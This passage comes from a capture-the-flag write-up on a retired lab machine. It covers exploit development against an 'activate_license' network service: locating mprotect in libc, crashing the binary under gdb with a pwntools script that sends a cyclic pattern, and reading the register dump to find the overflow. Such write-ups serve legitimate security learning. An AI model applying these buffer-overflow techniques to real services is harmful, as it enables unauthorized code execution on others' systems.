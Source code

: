```
$ readelf -s libc-2.31.so| grep mprotect
  1225: 00000000000f8c20    33 FUNC    WEAK   DEFAULT   14 mprotect@@GLIBC_2.2.5
```

{% embed url="https://man7.org/linux/man-pages/man2/mprotect.2.html" %}

However, it should be noted that it is possible to run the exploit even without this. This is because we can just call `system` to execute our shell instead.

Now, we need to figure out how to cause a crash in the binary such that we can control the execution flow. &#x20;

```
$ gdb -q --args ./activate_license 1337
Reading symbols from ./activate_license...
gdb-peda$ set follow-fork-mode child
gdb-peda$ run
Starting program: /home/kali/htb/retired/activate_license 1337
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[+] starting server listening on port 1337
[+] listening ...
```

Afterwards, we can create a quick Python script to send the input:

{% code overflow="wrap" %}
```python
from pwn import *
import sys
msg = sys.argv[1].encode()
r = remote('localhost', 1337)
r.send(p32(len(msg), endian='big'))
r.send(msg)
```
{% endcode %}

When run, our `gdb` window shows that it crashes with a pattern of length 2000.

```
[----------------------------------registers-----------------------------------]
RAX: 0x2d6 
RBX: 0x7fffffffde98 -> 0x7fffffffe1ff ("/home/kali/htb/retired/activate_license")
RCX: 0x0 
RDX: 0x0 
RSI: 0x5555555592a0 ("[+] activated license: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAA"...)
RDI: 0x7fffffffd580 -> 0x7ffff7cb0e70 (<__funlockfile>:        mov    rdi,QWORD PTR [rdi+0x88])
RBP: 0x4e73413873416973 ('siAs8AsN')
RSP: 0x7fffffffdd18 ("AsjAs9AsOAskAsPAslAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6\377\177")
RIP: 0x5555555555c0 (<activate_license+643>:    ret)
R8 : 0x555555559535 ("BEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6\377\177\n")
R9 : 0x7ffff7dcd580 (<__memcpy_ssse3+320>:      movaps xmm1,XMMWORD PTR [rsi+0x10])
R10: 0x0 
R11: 0x202 
R12: 0x0 
R13: 0x7fffffffdeb0 -> 0x7fffffffe22c ("COLORFGBG=15;0")
R14: 0x0 
R15: 0x7ffff7ffd020 -> 0x7ffff7ffe2e0 -> 0x555555554000 -> 0x10102464c457f
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x5555555555b9 <activate_license+636>:       call   0x5555555550b0 <printf@plt>
   0x5555555555be <activate_license+641>:       nop
   0x5555555555bf <activate_license+642>:       leave  
=> 0x5555555555c0 <activate_license+643>:       ret    
```